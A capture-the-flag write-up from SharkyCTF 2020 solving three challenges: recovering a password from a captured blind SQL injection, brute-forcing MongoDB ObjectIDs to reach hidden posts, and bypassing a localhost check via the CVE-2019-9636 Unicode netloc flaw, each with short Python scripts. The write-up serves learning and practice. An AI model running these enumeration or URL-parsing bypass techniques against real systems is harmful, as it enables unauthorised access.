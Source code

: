 # SharkyCTF 2020
I basically didn't work on this CTF much and spent my time doing other stuff :).

RGBsec got 3rd.


## Pain in the ass
> It looks like someone dumped our database. Please help us know what has been leaked ...
>
> Attached: pain-in-the-ass.pcapng

After waiting a while for the whole 26 MB of pcapng glory to download, we open the packets in WireShark.

It seems someone has been running a blind SQLi, and extracting the password of a user called `d4rk2phi`.

We can dump everything related to `d4rk2phi` with `strings pain-in-the-ass.pcapng > dump.txt`.

After that, we just have to match the char number and char in the blind SQLi:

```python
import re

f = open("dump.txt").readlines()

offset_regex = r"OFFSET\s\d\),(\d+)"
char_regex = r"=\s\'(.)\'"

pw = [""]*80

for i in f:
    try:
        offset = int(re.search(offset_regex, i).group(1))

        char = re.search(char_regex, i).group(1)

        pw[offset] = char
        
    except:
        pass

print(''.join(pw))
# hkCTF{4lm0st_h1dd3n_3xtr4ct10n_0e18e336adc8236a0452cd570f74542}
# IDK why the first character isn't there
```

Flag: `shkCTF{4lm0st_h1dd3n_3xtr4ct10n_0e18e336adc8236a0452cd570f74542}`


## Containment 
>Hello, welcome on "Containment Forever"! There are 2 categories of posts, only the first is available, get access to the posts on the flag category to retrieve the flag.
>
>containment-forever.sharkyctf.xyz

We are given some entries in a database, with namely their ObjectID. This reminded me of an [ACTF2018 challenge](https://www.pwndiary.com/write-ups/angstrom-ctf-2018-the-best-website-write-up-web230/). It's the same solve :).

```python
import requests

url = "http://containment-forever.sharkyctf.xyz/item/"

t1 = "5e75dab2"
t2 = "5e948a3a"
mid = "d7b160"
pid = "0013"
c = 0x655bb5

for i in range(200):
    offset = hex(c+i)[2:]

    p = requests.get(url + t1 + mid + pid + offset)
    if p.ok:
        print(url + t1 + mid + pid + offset)
        break


for i in range(200):
    offset = hex(c+i)[2:]

    p = requests.get(url + t2 + mid + pid + offset)
    if p.ok:
        print(url + t2 + mid + pid + offset)
        break
```


## Aqua world
>My friend opened this handmade aquarium blog recently and told me some strangers connected to his admin panel and he doesn't understand how it is possible.. I'm asking you to get the answer!
>
>http://aquaworld.sharkyctf.xyz/
>
>Hint: WTF this PYTHON version is deprecated!!!

From the hint we can probably assume it's going to be a "find-the-CVE" type problem.

Inspecting response headers from the page reveals the server is using `Werkzeug/1.0.1 Python/3.7.2`.

After hitting the cool green `Log in anonymously` button, we decide to visit the grayed out "Admin" link through inspect element.

![](https://i.imgur.com/fAMWkoV.png)

which takes us to `/admin-query?flag=flag`:

> Hi anonymous You need to connect locally in order to access the admin section (and get the flag) but you current netlocation (netloc) is http://aquaworld.sharkyctf.xyz

We need to somehow get the server to think that we were accessing from localhost.

My first reaction was to somehow SSRF, but there was no attack surface for that.

Going back to the hint, we search for [Python 3.7.2 CVEs](https://www.cvedetails.com/vulnerability-list/vendor_id-10210/product_id-18230/version_id-285731/Python-Python-3.7.2.html).

[CVE-2019-9636](https://www.cvedetails.com/cve/CVE-2019-9636/) jumps out immediately, as it has the word `netloc` in the description.

We can implement an attack following this thread: [https://bugs.python.org/issue36216](https://bugs.python.org/issue36216).

It's important to use a version of Python <= 3.7.2 for the solve script, which still has the bug.

I got stuck here for a while, trying every combination of the attack with the url. Eventually bAse figures out you have to put the unicode+@+localhost at the end of the netloc AND the endpoint, not just at the end of the netloc.

Also, keep the `Authorization` header unless you want a 403.

```python
import requests

headers = {
    "Authorization":"Basic YW5vbnltb3VzOmFub255bW91cw=="
}

p = requests.get("http://aquaworld.sharkyctf.xyz/admin-query\uFF03@127.0.0.1?flag=flag", headers=headers)
print(p.text)
```

Flag: `shkCTF{NFKC_normalization_can_be_dangerous!_8471b9b2da83011a07efc2899819da65}`.
